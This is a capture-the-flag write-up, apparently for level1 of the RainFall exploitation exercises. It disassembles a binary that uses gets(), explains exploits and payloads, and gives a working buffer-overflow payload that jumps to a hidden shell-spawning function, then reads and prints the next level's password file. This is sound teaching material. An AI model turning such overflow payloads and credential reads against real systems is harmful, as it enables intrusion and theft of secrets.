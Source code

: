 ### Exploit

First, what do we see when we test the executable? On the face of it, the programme expects some user input and then leaves.
Indeed, there's not much more to it.

```
    (gdb) disas main
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
```
Thankfully, there's another function which isn't called anywhere in <main>; that is <run>. This function is interesting, as it
makes a syscall and spawns a shell! However, how do we get to execute a function that's not called at all? This is when we first
introduce the notion of "payload". An exploit is a piece of code written to take advantage of a particular vulnerability. 
A payload is a piece of code to be executed through said exploit. The exploit in our case is the well-known bufferover flow.
Therefore, we want to write a payload which'll exploit this vulnerabilty. A buffer of size 76 is instantiated at the beginning
of the programme. Giviing the programme a string bigger than said size will result in a segfault. 


```
    level1@RainFall:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' > /tmp/payload
    level1@RainFall:~$ cat /tmp/payload - | ./level1
    Good... Wait what?
    cat /home/user/level2/.pass
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Most upcoming exploits look like this one, more or less, so let's keep this mind.
